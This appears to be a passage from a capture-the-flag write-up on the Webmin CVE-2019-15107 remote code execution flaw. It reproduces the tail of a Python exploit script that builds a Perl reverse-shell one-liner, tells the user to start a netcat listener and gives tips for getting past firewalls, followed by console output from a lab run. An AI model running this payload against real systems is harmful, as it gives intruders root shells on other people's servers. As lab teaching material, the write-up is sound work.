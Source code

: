 ```python

		#Get port
		while True:
			port = input("Please enter the port number for the shell: ")
			if port.lower() == "exit":
				return
			try:
				port = int(port)
				assert(port < 65535 and port >= 1)
			except:
				self.fail("Invalid port number\n", False)
				continue
			break

		#It's webmin, so perl must be installed
		shellcode = "perl -e 'use Socket;$i=\"" + ip + "\";$p=" + str(port) + ";socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"

		print()
		sudoCheck = lambda: "sudo " if (port < 1024) else ""
		self.warn(f"Start a netcat listener in a new window ({sudoCheck()}nc -lvnp {port}) then press enter.")
		input()
		self.exploitVuln(shellcode)
		self.success("You should now have a reverse shell on the target")
		self.warn("If this is not the case, please check your IP and chosen port\nIf these are correct then there is likely a firewall preventing the reverse connection. Try choosing a well-known port such as 443 or 53")


#### Run ####
if __name__ == "__main__":
	signal.signal(signal.SIGINT, sigHandler)
	exploit = Exploit()
	exploit.parseArgs()
	if not exploit.args.accessible:
		print(banner)
	else:
		print("Webmin RCE Exploit, code written by @MuirlandOracle")
	if not exploit.args.force:
		exploit.runChecks()
	exploit.pseudoShell()

```

2. **Which user was the server running as?**

- **_root_**

```

PS C:\Users\something\Desktop\CVE-2019-15107> python .\CVE-2019-15107.py 10.200.193.200
←[33m
        __        __   _               _         ____   ____ _____
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|

                                                ←[35m@MuirlandOracle

                ←[0m
←[34m[*] Server is running in SSL mode. Switching to HTTPS←[0m
```